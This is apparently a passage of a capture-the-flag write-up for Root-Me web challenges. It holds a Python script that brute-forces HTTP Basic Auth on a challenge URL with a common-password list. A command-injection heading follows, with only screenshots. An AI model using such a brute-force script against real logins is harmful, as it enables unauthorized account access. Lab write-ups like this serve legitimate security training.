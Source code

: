### 5.Weak password

```
import requests
from requests.auth import HTTPBasicAuth
url = "http://challenge01.root-me.org/web-serveur/ch3/"
usr = "admin"
words = open('common_password.txt','r').read().split('\n')
cnt =1
for pwd in words:
	print(pwd,cnt)
	
	res = requests.get(url, auth=HTTPBasicAuth(usr, pwd))
	
	if "401" not in res.text:
		print('Password is ' + pwd)
		break
	cnt +=1
```

![](<../../.gitbook/assets/image (39).png>)

### 6.PHP - Command injection

![](<../../.gitbook/assets/image (32) (2).png>)

![](<../../.gitbook/assets/image (33) (2).png>)
